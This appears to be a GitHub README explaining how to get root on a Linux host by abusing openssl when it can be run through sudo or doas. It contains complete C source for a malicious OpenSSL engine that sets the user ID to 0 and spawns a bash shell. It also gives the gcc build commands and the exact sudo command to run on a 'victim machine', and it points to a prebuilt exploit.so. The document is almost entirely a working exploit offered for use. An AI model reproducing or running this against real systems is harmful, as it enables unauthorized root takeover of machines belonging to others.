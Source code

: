 # openssl-privilege-escalation
How to get ROOT with openssl

On kali(attacker), create a file called exploit.c with the following content:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Then execute 2 commands:
`gcc -fPIC -o exploit.o -c exploit.c`
gcc -shared -o exploit.so -lcrypto exploit.o

Upload exploit.so to the victim machine then run:
sudo openssl req -engine ./exploit.so
(also worked with doas because I have tested it)
I have uploaded the exploit.so, so you can just run the above command without building it
